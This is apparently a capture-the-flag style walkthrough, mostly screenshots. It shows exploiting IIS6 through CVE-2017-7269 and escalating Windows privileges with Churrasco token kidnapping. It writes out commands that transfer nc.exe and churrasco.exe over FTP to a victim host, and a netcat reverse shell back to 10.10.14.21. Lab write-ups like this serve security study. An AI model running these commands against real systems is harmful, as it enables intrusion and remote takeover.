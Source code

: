 1.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/da3d72c6-9900-430d-afd4-795a51ba1346)

2. [link](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/62b52c60-3da9-4581-85ed-1f7a1f8560fe)

Attacker terminal:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4065cdff-e018-4983-83a2-fca55b2b39ee)

3.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/07594dc1-466d-49ac-9ef8-2a2e0da60ba4)

4. [article](https://medium.com/@nmappn/windows-privelege-escalation-via-token-kidnapping-6195edd2660e)

Command: wget https://github.com/Re4son/Churrasco/blob/master/churrasco.exe?raw=true

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/143503d5-d126-4c6b-b26a-691a09ffbcf4)

5.

Command: cp /usr/share/windows-resources/binaries/nc.exe .

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a9732d71-b1e8-4cb0-92f9-cb6dcfb46847)

6.

Command: echo open 10.10.14.21 21> payloadftp.txt&echo USER anonymous >> payloadftp.txt&echo anonymous>> payloadftp.txt&echo bin>> payloadftp.txt&echo GET nc.exe >> payloadftp.txt&echo bye>> payloadftp.txt

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a2d2624d-57f8-4760-ac59-32d63bfbad2d)

7.

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d10ef698-5f6a-408c-a574-5c054ec74282)


8.

Attacker Terminal:<br>
Command:python3 -m pyftpdlib -p 21<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/021e26cc-6559-44c3-9e56-5b881ab224e4)


Victim Terminal:<br>
Command: ftp -v -n -s:payloadftp.txt<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/01e81fcc-d7f8-40f1-88dc-854620ba3082)

9.

Command: echo open 10.10.14.21 21> payloadftp.txt&echo USER anonymous >> payloadftp.txt&echo anonymous>> payloadftp.txt&echo bin>> payloadftp.txt&echo GET churrasco.exe >> payloadftp.txt&echo bye>> payloadftp.txt

Command 2: ftp -v -n -s:payloadftp.txt<br>

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6cc52aed-d435-4301-9481-6416e552f63a)

10.

Command: churrasco.exe -d "C:\wmpub\nc.exe 10.10.14.21 778 -e cmd.exe"

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e125371c-0b6c-47d5-a7b9-aaaa0b89b20e)

Attacker Terminal:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/24a046de-62a9-4243-8d0a-30242d7d33b9)

11.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/230ff785-5022-4405-a0bc-50c1cd4cd06c)

12.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/38c1dd15-3a6c-45f3-a243-ab238efd35af)








